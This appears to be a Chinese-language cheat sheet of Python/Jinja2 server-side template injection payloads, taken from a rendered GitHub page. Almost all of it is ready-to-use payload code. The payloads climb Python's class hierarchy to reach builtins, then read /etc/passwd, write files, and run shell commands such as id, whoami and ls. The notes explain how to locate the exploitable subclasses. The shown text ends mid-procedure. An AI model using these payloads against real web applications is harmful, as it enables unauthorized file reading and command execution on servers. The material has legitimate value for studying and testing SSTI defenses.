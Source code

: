 - Python3

```python
#python3没有file，用的是open
#文件读取
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
{{().__class__.__base__.__subclasses__[177].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("dir").read()')}}
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')
```
- 可以参考：[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

## 常见可利用类
- 文件读取_方法一_子模块利用
- 存在的子模块可以通过 `.index()` 来进行查询，如果存在的话返回索引

```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

- `flie` 类：(在字符串的所属对象种获取 `str` 的父类，在其 `object` 父类种查找其所有子类，第 41 个为 `file` 类)

```python
''.__class__.__mro__[2].__subclasses__()[40]('<File_To_Read>').read()
```

- `_frozen_importlib_external.FileLoader` 类：(前置查询一样，其是第 91 个类)

```python
''.__class__.__mro__[2].__subclasses__()[91].get_data(0,"<file_To_Read>")
```

- 文件读取_方法二_通过函数解析->基本类->基本类子类->重载类->引用->查找可用函数

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()    #将read() 修改为 write() 即为写文件
```

- 命令执行_方法一_利用 `eval` 进行命令执行

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

- 命令执行_方法二_利用 `warnings.catch_warnings` 进行命令执行

```python
查看 warnings.catch_warnings 方法的位置
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)

查看 linecatch 的位置
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')

查找os模块的位置
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')

查找system方法的位置(在这里使用os.open().read()可以实现一样的效果,步骤一样,不再复述)
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')

调用system方法
```